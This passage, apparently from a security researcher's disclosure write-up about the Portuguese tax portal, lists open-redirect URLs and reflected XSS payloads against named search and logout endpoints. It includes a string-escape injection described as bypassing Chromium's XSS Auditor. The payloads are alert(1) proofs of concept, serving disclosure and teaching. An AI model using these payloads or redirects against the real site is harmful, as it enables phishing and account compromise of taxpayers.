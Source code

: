 `https://www.portaldasfinancas.gov.pt/geral/search/click?ClickedResultPath=https://migueldemoura.com`

Another open redirect can be found on the logout endpoint:

`https://www.portaldasfinancas.gov.pt/pt/logoutSA.action?redirectTo=https://migueldemoura.com`

Like many of these weaknesses, they affect both [www.portalfinancas.com](https://www.portalfinancas.com) and [sitfiscal.portalfinancas.com](https://sitfiscal.portalfinancas.com).

### Reflected XSS (GET) - Chromium XSS Auditor Bypass

Back to XSS; In the following case, and unlike all others, we also manage to bypass the Chromium XSS Auditor by injecting our code into an inline script:

``` html
https://sitfiscal.portaldasfinancas.gov.pt/geral/home?segmento=', '');alert(1);//
https://www.portaldasfinancas.gov.pt/geral/home?segmento=', '');alert(1);//
https://sitfiscal.portaldasfinancas.gov.pt/geral/home?areaDestino=', '');alert(1);//
https://www.portaldasfinancas.gov.pt/geral/home?areaDestino=', '');alert(1);//
```

{{ image(
    path="images/finance-tax-portal-1/xss-get-auditor-bypass.png",
    alt="Injected code running - XSS Auditor Bypass.",
    caption_no="5",
    caption="Injected code running - XSS Auditor Bypass."
) }}

``` html
<script type="text/javascript">
  $(function () {
    alertas.init('<label>||ALERTA_TITULO||</label><p class="red-excerpt">||ALERTA_DESCRICAO||</p>', '<label>||ALERTA_TITULO||</label><p>||ALERTA_DESCRICAO||</p>', 'INJECTION', '');
  });
</script>
```

Our payload simply escapes the function and ensures it has the correct number of arguments:

``` html
<script type="text/javascript">
  $(function () {
    alertas.init('<label>||ALERTA_TITULO||</label><p class="red-excerpt">||ALERTA_DESCRICAO||</p>', '<label>||ALERTA_TITULO||</label><p>||ALERTA_DESCRICAO||</p>', '', '');alert(1);//', '');
  });
</script>
```

Since this is injected on multiple locations, we can prevent the exploit from executing more than once with the following string: `', '');if(!window.p){window.p=1; alert(1);}//`.

The four URLs pertain to the search functionality of two sections, both available without authentication.

### XSRF
